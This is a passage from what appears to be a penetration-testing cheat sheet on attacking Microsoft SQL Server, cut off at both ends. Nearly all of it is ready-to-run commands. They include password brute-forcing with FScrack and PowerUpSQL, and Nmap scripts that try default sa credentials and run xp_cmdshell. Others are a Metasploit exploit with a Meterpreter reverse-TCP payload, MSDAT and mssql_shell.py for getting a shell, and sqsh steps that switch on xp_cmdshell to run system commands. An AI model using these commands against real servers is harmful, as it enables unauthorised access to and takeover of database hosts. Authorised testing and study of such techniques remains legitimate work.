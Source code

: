 ```
Set it up PASS_FILE and RHOSTS.
```
**PowerUpSQL**
```
Invoke-SQLAuditWeakLoginPw
```
**FScrack**
```
python FScrack.py -h 192.168.1 -p 1433 -d pass.txt
```
## Exploitation
**Nmap**
```
nmap -p 445 --script ms-sql-discover,ms-sql-empty-password,ms-sql-xp-cmdshell 192.168.1.10
nmap -p 1433 --script ms-sql-xp-cmdshell --script-args mssql.username=sa,mssql.password=sa,ms-sql-xp-cmdshell.cmd="whoami" 192.168.1.10
```
**MetaSploit**
```
msf > auxiliary/admin/mssql/mssql_exec
msf > auxiliary/admin/mssql/mssql_sql 
Rebound
msf > use exploit/windows/mssql/mssql_payload msf exploit(mssql_payload) > set PAYLOAD windows/meterpreter/reverse_tcp 
```
**MSDAT**
All the included above could be tested using MSDAT only.
<br>
Getting a shell
```
msdat.py xpcmdshell -s $SERVER -p $PORT -U $USER -P $PASSWORD --shell
mssql_shell python script
```

**python [mssql_shell.py](https://github.com/Alamot/code-snippets/blob/master/mssql/mssql_shell.py) script**
```
Usage : mssql_shell Change MSSQL_SERVE , MSSQL_USERNAME and MSSQL_PASSWORD
```
**Sqsh**
<br>
Connect to the service 
```
sqsh -S mssql -D MyDB -U DOMAIN\\testuser -P MyTestingClearPassword1
```
Then
```
exec sp_configure ‘show advanced options’, 1
go
reconfigure
go
exec sp_configure ‘xp_cmdshell’, 1
go
reconfigure
go
xp_cmdshell 'dir C:\'
go
```
# C&C
